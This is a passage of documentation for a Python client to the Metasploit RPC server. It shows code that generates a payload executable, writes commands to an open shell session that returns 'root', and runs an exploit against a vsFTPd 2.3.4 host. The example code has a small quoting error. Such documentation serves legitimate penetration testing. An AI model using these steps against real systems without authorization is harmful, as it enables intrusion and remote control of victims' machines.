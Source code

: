 ```python
# set runoptions
payload.runoptions['BadChars'] = ''
payload.runoptions['Encoder'] = ''
payload.runoptions['Format'] = 'exe
payload.runoptions['NopSledSize'] = 0
payload.runoptions['ForceEncode'] = False
# payload.runoptions['Template'] = ''
payload.runoptions['Platform'] = ''
# payload.runoptions['KeepTemplateWorking'] = True
payload.runoptions['Iterations'] = 0

data = payload.payload_generate()
if isinstance(data, str):
    print(data)
else:
    with open('test.exe', 'wb') as f:
        f.write(data)
```

### Interacting with the shell
Create a shell object out of the session number we found above and write to it:

```python
>>> shell = client.sessions.session('1')
>>> shell.write('whoami')
>>> print(shell.read())
root
>>>
```

Run the same `exploit` object as before but wait until it completes and gather it's output:

```python
>>> cid = client.consoles.console().cid # Create a new console and store its number in 'cid'
>>> print(client.consoles.console(cid).run_module_with_output(exploit, payload='cmd/unix/interact'))
# Some time passes
'[*] 172.16.14.145:21 - Banner: 220 vsFTPd 2.3.4
[*] 172.16.14.145:21 - USER: 331 Please specify the password
...'

```

`client.sessions.session('1')` has the same `.write('some string')` and `.read()` methods, but running session commands and
 waiting until they're done returning output isn't as simple as console commands. The Metasploit RPC server will return
 a `busy` value that is `True` or `False` with `client.consoles.console('1').is_busy()` but determining if a
 `client.sessions.session()`  is done running a command requires us to do it by hand. For this purpose we will use a
 list of strings that, when any one is found in the session's output, will tell us that the session is done running
 its command. Below we are running the `arp` command within a meterpreter session. We know this command will return one
 large blob of text that will contain the characters `----` if it's successfully run so we put that into a list object.
